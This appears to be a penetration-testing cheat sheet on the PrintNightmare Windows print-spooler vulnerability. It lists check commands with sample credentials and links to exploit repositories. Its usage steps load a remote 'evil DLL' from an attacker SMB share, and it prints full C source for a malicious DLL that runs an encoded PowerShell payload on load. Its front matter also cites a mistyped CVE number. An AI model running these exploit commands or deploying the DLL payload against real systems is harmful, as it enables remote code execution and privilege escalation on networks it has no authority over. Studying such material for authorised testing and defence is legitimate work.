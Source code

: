```yaml
---
description: CVE-2021-16751, CVE-2021-34527
---
```


# PrintNightmare

* [https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)
* [https://pentestlab.blog/2021/08/17/domain-escalation-printnightmare/](https://pentestlab.blog/2021/08/17/domain-escalation-printnightmare/)




## Check



### CrackMapExec

* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/spooler.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/spooler.py)

```
$ cme smb hosts.txt -u snovvcrash -p 'Passw0rd!' -M spooler
```



### ItWasAllADream

* [https://github.com/byt3bl33d3r/ItWasAllADream](https://github.com/byt3bl33d3r/ItWasAllADream)

```
$ poetry run itwasalladream -d megacorp.local -u snovvcrash -p 'Passw0rd!' 192.168.1.0/24
```




## Exploits



### C/C++

RCE (fork of the original repo):

* [https://github.com/afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)

LPE:

* [https://github.com/hlldz/CVE-2021-1675-LPE](https://github.com/hlldz/CVE-2021-1675-LPE)



### Python

RCE:

* [https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)


#### Usage

1. Prepare [an SMB share with anonymous authentication](/pentest/infrastructure/ad/smb.md#smb-share-with-null-authentication) allowed (`smbserver.py` also works):
2. Generate an evil DLL: a С2 stager / add user to a privileged group ([1](https://github.com/newsoft/adduser), [2](https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp), [3](https://github.com/calebstewart/CVE-2021-1675/tree/main/nightmare-dll), etc.) / invoke a [custom](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) command (see example below).
3. Run the exploit:

```
$ python CVE-2021-1675.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 '\\10.10.13.37\share\pwn.dll'
```

{% code title="pwn.c" %}
```c
// x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```
{% endcode %}

An example on configuring and abusing RBCD on a DC with PrintNightmare 👉🏻 [here](https://snovvcrash.rocks/2021/06/30/leveraging-printnightmare-to-abuse-rbcd.html).



### C\#

RCE + LPE:

* [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare)



### PowerShell

LPE:

* [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)




## Reproducibility

Flowchart by [@wdormann](https://twitter.com/wdormann/status/1412906574998392840):

![](https://pbs.twimg.com/media/E5y7h36WYAMPzBo?format=jpg&name=large)




## Mitigation

* [https://github.com/LaresLLC/CVE-2021-1675](https://github.com/LaresLLC/CVE-2021-1675)
